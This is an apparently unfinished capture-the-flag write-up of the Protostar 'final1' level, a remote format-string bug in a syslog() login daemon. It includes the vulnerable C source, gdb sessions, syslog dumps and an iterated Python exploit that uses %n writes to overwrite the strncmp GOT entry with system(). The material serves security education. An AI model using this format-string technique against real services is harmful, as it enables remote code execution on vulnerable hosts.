

#### 29. Remote format string exploit in syslog()

###### Protostar Final1

- About
	- This level is a remote blind format string level. The ‘already written’ bytes can be variable, and is based upon the length of the IP address and port number.
	- When you are exploiting this and you don’t necessarily know your IP address and port number (proxy, NAT / DNAT, etc), you can determine that the string is properly aligned by seeing if it crashes or not when writing to an address you know is good.
	- Core files will be in `/tmp`.
	- This level is at `/opt/protostar/bin/final1`

`final1.c`

```c
#include "../common/common.c"

#include <syslog.h>

#define NAME "final1"
#define UID 0
#define GID 0
#define PORT 2994

char username[128];
char hostname[64];

void logit(char *pw)
{
  char buf[512];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);

  syslog(LOG_USER|LOG_DEBUG, buf);
}

void trim(char *str)
{
  char *q;

  q = strchr(str, '\r');
  if(q) *q = 0;
  q = strchr(str, '\n');
  if(q) *q = 0;
}

void parser()
{
  char line[128];

  printf("[final1] $ ");

  while(fgets(line, sizeof(line)-1, stdin)) {
      trim(line);
      if(strncmp(line, "username ", 9) == 0) {
          strcpy(username, line+9);
      } else if(strncmp(line, "login ", 6) == 0) {
          if(username[0] == 0) {
              printf("invalid protocol\n");
          } else {
              logit(line + 6);
              printf("login failed\n");
          }
      }
      printf("[final1] $ ");
  }
}

void getipport()
{
  int l;
  struct sockaddr_in sin;

  l = sizeof(struct sockaddr_in);
  if(getpeername(0, &sin, &l) == -1) {
      err(1, "you don't exist");
  }

  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  getipport();
  parser();

}
```

- Solution

```sh
root@protostar:/opt/protostar/bin# netstat -plant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      1150/portmap
tcp        0      0 0.0.0.0:2993            0.0.0.0:*               LISTEN      1711/final2
tcp        0      0 0.0.0.0:2994            0.0.0.0:*               LISTEN      1709/final1
tcp        0      0 0.0.0.0:2995            0.0.0.0:*               LISTEN      1707/final0
tcp        0      0 0.0.0.0:2996            0.0.0.0:*               LISTEN      1705/net3
tcp        0      0 0.0.0.0:2997            0.0.0.0:*               LISTEN      1703/net2
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1845/sshd
tcp        0      0 0.0.0.0:2998            0.0.0.0:*               LISTEN      1701/net1
tcp        0      0 0.0.0.0:2999            0.0.0.0:*               LISTEN      1699/net0
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      1688/exim4
tcp        0      0 0.0.0.0:57220           0.0.0.0:*               LISTEN      1162/rpc.statd
tcp        0      0 192.168.150.13:22       192.168.150.3:50362     ESTABLISHED 1867/sshd: user [pr
tcp        0      0 192.168.150.13:22       192.168.150.3:50363     ESTABLISHED 1897/sshd: user [pr
tcp6       0      0 :::22                   :::*                    LISTEN      1845/sshd
tcp6       0      0 ::1:25                  :::*                    LISTEN      1688/exim4
root@protostar:/opt/protostar/bin#
```

```sh
user@protostar:/tmp$ nc 127.0.0.1 2994
[final1] $ %x %x %x %x
[final1] $ %s %s %s %s
[final1] $ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[final1] $ [final1] $ [final1] $ [final1] $
```

```sh
user@protostar:~$ man getpeername
```


```sh
user@protostar:~$ man 7 ip
```



```sh
user@protostar:/tmp$ nc 127.0.0.1 2994
[final1] $ username kan1shka9
[final1] $ login my_password
login failed
[final1] $
```

```sh
root@protostar:/opt/protostar/bin# tail /var/log/syslog
Jun 19 07:46:57 (none) dhclient: Sending on   LPF/eth0/00:0c:29:23:cb:e4
Jun 19 07:46:57 (none) dhclient: Sending on   Socket/fallback
Jun 19 07:46:58 (none) dhclient: DHCPDISCOVER on eth0 to 255.255.255.255 port 67 interval 8
Jun 19 07:46:58 (none) dhclient: DHCPOFFER from 192.168.150.151
Jun 19 07:46:58 (none) dhclient: DHCPREQUEST on eth0 to 255.255.255.255 port 67
Jun 19 07:46:58 (none) dhclient: DHCPACK from 192.168.150.151
Jun 19 07:46:59 (none) dhclient: bound to 192.168.150.13 -- renewal in 37414 seconds.
Jun 19 07:47:08 (none) kernel: [   18.364333] eth0: no IPv6 routers present
Jun 19 07:56:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 07:58:20 (none) final1: Login from 127.0.0.1:50171 as [kan1shka9] with password [my_password]
root@protostar:/opt/protostar/bin#
```

```sh
user@protostar:~$ man syslog
```


```sh
user@protostar:/tmp$ nc 127.0.0.1 2994
[final1] $ username %x %x %x %x %x
[final1] $ login %x %x %x %x %x
login failed
[final1] $
```

```sh
root@protostar:/opt/protostar/bin# tail /var/log/syslog
Jun 19 07:46:57 (none) dhclient: Sending on   Socket/fallback
Jun 19 07:46:58 (none) dhclient: DHCPDISCOVER on eth0 to 255.255.255.255 port 67 interval 8
Jun 19 07:46:58 (none) dhclient: DHCPOFFER from 192.168.150.151
Jun 19 07:46:58 (none) dhclient: DHCPREQUEST on eth0 to 255.255.255.255 port 67
Jun 19 07:46:58 (none) dhclient: DHCPACK from 192.168.150.151
Jun 19 07:46:59 (none) dhclient: bound to 192.168.150.13 -- renewal in 37414 seconds.
Jun 19 07:47:08 (none) kernel: [   18.364333] eth0: no IPv6 routers present
Jun 19 07:56:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 07:58:20 (none) final1: Login from 127.0.0.1:50171 as [kan1shka9] with password [my_password]
Jun 19 08:02:04 (none) final1: Login from 127.0.0.1:50172 as [8049ee4 804a2a0 804a220 bffffbd6 b7fd7ff4] with password [bffffa28 69676f4c 7266206e 31206d6f 302e3732]
root@protostar:/opt/protostar/bin#
```

```sh
>>> '69676f4c'.decode('hex')
'igoL'
>>> '69676f4c'.decode('hex')[::-1]
'Logi'
>>> '7266206e'.decode('hex')[::-1]
'n fr'
>>> '31206d6f'.decode('hex')[::-1]
'om 1'
>>> '302e3732'.decode('hex')[::-1]
'27.0'
>>>
```

`final1.py`

```python
import struct
import socket

HOST = '127.0.0.1'
PORT = 2994

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
	buffer = ''
	while check not in buffer:
		buffer += s.recv(1)
	return buffer

username = ''
login = ''

print read_until("[final1] $ ")
raw_input('waiting... hit [enter]')
s.send(username)
print read_until("[final1] $ ")
s.send(login)
print read_until("[final1] $ ")
```

```sh
user@protostar:/tmp$ python final1.py
[final1] $
waiting... hit [enter]
```

```sh
root@protostar:/opt/protostar/bin# ps -aux | grep final1
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root      1709  0.0  0.1   1532   276 ?        Ss   07:46   0:00 /opt/protostar/bin/final1
user      2048  0.0  1.4   8684  3748 pts/1    S+   08:09   0:00 python final1.py
root      2049  0.0  0.1   1532   288 ?        S    08:09   0:00 /opt/protostar/bin/final1
root      2064  0.0  0.2   3296   728 pts/0    S+   08:14   0:00 grep final1
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/opt/protostar/bin# pidof final1
2049 1709
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/opt/protostar/bin# gdb --pid 2049
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Attaching to process 2049
Reading symbols from /opt/protostar/bin/final1...done.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82	../sysdeps/unix/syscall-template.S: No such file or directory.
	in ../sysdeps/unix/syscall-template.S
(gdb) info functions strncmp
All functions matching regular expression "strncmp":

File strncmp.c:
int *__GI_strncmp(const char *, const char *, size_t);

File ../sysdeps/i386/i486/bits/string.h:
int __strncmp_g(const char *, const char *, size_t);

Non-debugging symbols:
0x08048d9c  strncmp
0x08048d9c  strncmp@plt
Current language:  auto
The current source language is "auto; currently asm".
(gdb) x/3i 0x08048d9c
0x8048d9c <strncmp@plt>:	jmp    *0x804a1a8
0x8048da2 <strncmp@plt+6>:	push   $0x160
0x8048da7 <strncmp@plt+11>:	jmp    0x8048acc
(gdb) x/wx 0x804a1a8
0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:	0x08048da2
(gdb) x system
0xb7ecffb0 <__libc_system>:	0x890cec83
(gdb) info symbol system
system in section .text of /lib/libc.so.6
(gdb)
```

```sh
user@protostar:/tmp$ nc 127.0.0.1 2994
[final1] $ username AAAA %x %x %x %x %x %x %x %x
[final1] $ login BBBB %x %x %x %x %x %x %x %x
login failed
[final1] $ ^C
user@protostar:/tmp$
```

```sh
root@protostar:/tmp# tail /var/log/syslog
Jun 19 07:46:59 (none) dhclient: bound to 192.168.150.13 -- renewal in 37414 seconds.
Jun 19 07:47:08 (none) kernel: [   18.364333] eth0: no IPv6 routers present
Jun 19 07:56:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 07:58:20 (none) final1: Login from 127.0.0.1:50171 as [kan1shka9] with password [my_password]
Jun 19 08:02:04 (none) final1: Login from 127.0.0.1:50172 as [8049ee4 804a2a0 804a220 bffffbd6 b7fd7ff4] with password [bffffa28 69676f4c 7266206e 31206d6f 302e3732]
Jun 19 08:06:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 08:16:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 08:17:01 (none) /USR/SBIN/CRON[2083]: (root) CMD (   cd / && run-parts --report /etc/cron.hourly)
Jun 19 08:26:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 08:30:55 (none) final1: Login from 127.0.0.1:50176 as [AAAA 8049ee4 804a2a0 804a220 bffffbd6 b7fd7ff4 bffffa28 69676f4c 7266206e] with password [BBBB 31206d6f 302e3732 312e302e 3130353a 61203637 415b2073 20414141 25207825]
root@protostar:/tmp#
```

```sh
>>> len('0.0.0.0:0')
9
>>> len('000.000.000.000:00000')
21
>>>
```

`final1.py`

```python
import struct
import socket

HOST = '127.0.0.1'
PORT = 2994

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
	buffer = ''
	while check not in buffer:
		buffer += s.recv(1)
	return buffer

STRNCMP = struct.pack("I", 0x804a1a8)
# Overwrite location with system() 0xb7ecffb0
# Login from 127.0.0.1:50171 as [kan1shka9] with password [my_password]
ip, port = s.getsockname()
hostname = ip + ":" + str(port)
pad = "A"*(24-len(hostname))
username = pad + 'BBBB' + '%08x ' * 20
login = "CCCC"

print read_until("[final1] $ ")
raw_input('waiting... hit [enter]')
s.send('username ' + username + "\n")
print read_until("[final1] $ ")
s.send('login ' + login + "\n")
print read_until("[final1] $ ")
```

```sh
root@protostar:/tmp# python final1.py
[final1] $
waiting... hit [enter]
[final1] $
login failed
[final1] $
root@protostar:/tmp#
```

```sh
root@protostar:/tmp# tail /var/log/syslog
Jun 19 07:58:20 (none) final1: Login from 127.0.0.1:50171 as [kan1shka9] with password [my_password]
Jun 19 08:02:04 (none) final1: Login from 127.0.0.1:50172 as [8049ee4 804a2a0 804a220 bffffbd6 b7fd7ff4] with password [bffffa28 69676f4c 7266206e 31206d6f 302e3732]
Jun 19 08:06:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 08:16:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 08:17:01 (none) /USR/SBIN/CRON[2083]: (root) CMD (   cd / && run-parts --report /etc/cron.hourly)
Jun 19 08:26:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 08:30:55 (none) final1: Login from 127.0.0.1:50176 as [AAAA 8049ee4 804a2a0 804a220 bffffbd6 b7fd7ff4 bffffa28 69676f4c 7266206e] with password [BBBB 31206d6f 302e3732 312e302e 3130353a 61203637 415b2073 20414141 25207825]
Jun 19 08:36:56 (none) mpt-statusd: detected non-optimal RAID status
Jun 19 08:42:05 (none) final1: Login from 127.0.0.1:50179 as [BBBB08049ee4 0804a2a0 0804a220 bffffbd6 b7fd7ff4 bffffa28 69676f4c 7266206e 31206d6f 302e3732 312e302e 3130353a 61203937 425b2073 25424242 20783830 78383025 38302520 30252078 25207838 ] with password [CCCC]
Jun 19 08:44:09 (none) final1: Login from 127.0.0.1:50180 as [AAAAAAAAABBBB08049ee4 0804a2a0 0804a220 bffffbd6 b7fd7ff4 bffffa28 69676f4c 7266206e 31206d6f 302e3732 312e302e 3130353a 61203038 415b2073 41414141 41414141 42424242 78383025 38302520 30252078 ] with password [CCCC]
root@protostar:/tmp#
```


```sh
>>> string="AAAAAAAAABBBB08049ee4 0804a2a0 0804a220 bffffbd6 b7fd7ff4 bffffa28 69676f4c 7266206e 31206d6f 302e3732 312e302e 3130353a 61203038 415b2073 41414141 41414141"
>>> a=string.split()
>>> len(a)
16
>>>
```

`final1.py`

```python
import struct
import socket

HOST = '127.0.0.1'
PORT = 2994

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
	buffer = ''
	while check not in buffer:
		buffer += s.recv(1)
	return buffer

STRNCMP = struct.pack("I", 0x804a1a8)
# Overwrite location with system() 0xb7ecffb0
# Login from 127.0.0.1:50171 as [kan1shka9] with password [my_password]
ip, port = s.getsockname()
hostname = ip + ":" + str(port)
pad = "A"*(24-len(hostname))
username = pad + 'BBBB' + STRNCMP + '%17$08x %18$08n'
login = "CCCC"

print read_until("[final1] $ ")
raw_input('waiting... hit [enter]')
s.send('username ' + username + "\n")
print read_until("[final1] $ ")
s.send('login ' + login + "\n")
print read_until("[final1] $ ")
raw_input('waiting... hit [enter]')
```

```sh
user@protostar:/tmp$ python final1.py
[final1] $
waiting... hit [enter]
[final1] $
login failed
[final1] $
waiting... hit [enter]
```

```sh
root@protostar:/opt/protostar/bin# pidof final1
2182 1709
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/opt/protostar/bin# gdb --pid 2182
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Attaching to process 2182
Reading symbols from /opt/protostar/bin/final1...done.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82	../sysdeps/unix/syscall-template.S: No such file or directory.
	in ../sysdeps/unix/syscall-template.S
(gdb) info functions strncmp
All functions matching regular expression "strncmp":

File strncmp.c:
int *__GI_strncmp(const char *, const char *, size_t);

File ../sysdeps/i386/i486/bits/string.h:
int __strncmp_g(const char *, const char *, size_t);

Non-debugging symbols:
0x08048d9c  strncmp
0x08048d9c  strncmp@plt
Current language:  auto
The current source language is "auto; currently asm".
(gdb) x/3i 0x08048d9c
0x8048d9c <strncmp@plt>:	jmp    *0x804a1a8
0x8048da2 <strncmp@plt+6>:	push   $0x160
0x8048da7 <strncmp@plt+11>:	jmp    0x8048acc
(gdb) x/wx 0x804a1a8
0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:	0x08048da2
(gdb) c
Continuing.
^C
Program received signal SIGINT, Interrupt.
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82	in ../sysdeps/unix/syscall-template.S
(gdb) x/wx 0x804a1a8
0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:	0x00000039
(gdb)
```


`system()` &rarr; `0xb7ecffb0`

```sh
>>> 0xffb0 - 0x00000039 + 8
65407
>>>
```

`final1.py`

```python
import struct
import socket

HOST = '127.0.0.1'
PORT = 2994

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
	buffer = ''
	while check not in buffer:
		buffer += s.recv(1)
	return buffer

STRNCMP = struct.pack("I", 0x804a1a8)
# Overwrite location with system() 0xb7ecffb0
# Login from 127.0.0.1:50171 as [kan1shka9] with password [my_password]
ip, port = s.getsockname()
hostname = ip + ":" + str(port)
pad = "A"*(24-len(hostname))
username = pad + 'BBBB' + STRNCMP + '%17$65407x %18$08n'
login = "CCCC"

print read_until("[final1] $ ")
raw_input('waiting... hit [enter]')
s.send('username ' + username + "\n")
print read_until("[final1] $ ")
s.send('login ' + login + "\n")
print read_until("[final1] $ ")
raw_input('waiting... hit [enter]')
```

```sh
root@protostar:/opt/protostar/bin# ps -aux | grep final1
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root      1709  0.0  0.1   1532   276 ?        Ss   07:46   0:00 /opt/protostar/bin/final1
user      2318  0.3  1.4   8684  3764 pts/1    S+   10:30   0:00 python final1.py
root      2319  0.0  0.1   1532   288 ?        S    10:30   0:00 /opt/protostar/bin/final1
root      2321  0.0  0.2   3296   728 pts/0    S+   10:30   0:00 grep final1
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/opt/protostar/bin# pidof final1
2319 1709
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/opt/protostar/bin# gdb --pid 2319
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Attaching to process 2319
Reading symbols from /opt/protostar/bin/final1...done.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82	../sysdeps/unix/syscall-template.S: No such file or directory.
	in ../sysdeps/unix/syscall-template.S
(gdb) info functions strncmp
All functions matching regular expression "strncmp":

File strncmp.c:
int *__GI_strncmp(const char *, const char *, size_t);

File ../sysdeps/i386/i486/bits/string.h:
int __strncmp_g(const char *, const char *, size_t);

Non-debugging symbols:
0x08048d9c  strncmp
0x08048d9c  strncmp@plt
Current language:  auto
The current source language is "auto; currently asm".
(gdb) x/3i 0x08048d9c
0x8048d9c <strncmp@plt>:	jmp    *0x804a1a8
0x8048da2 <strncmp@plt+6>:	push   $0x160
0x8048da7 <strncmp@plt+11>:	jmp    0x8048acc
(gdb) x/wx 0x804a1a8
0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:	0x08048da2
(gdb) c
Continuing.
^C
Program received signal SIGINT, Interrupt.
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82	in ../sysdeps/unix/syscall-template.S
(gdb) x/wx 0x804a1a8
0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:	0x0000ffb0
(gdb)
```


**To be done**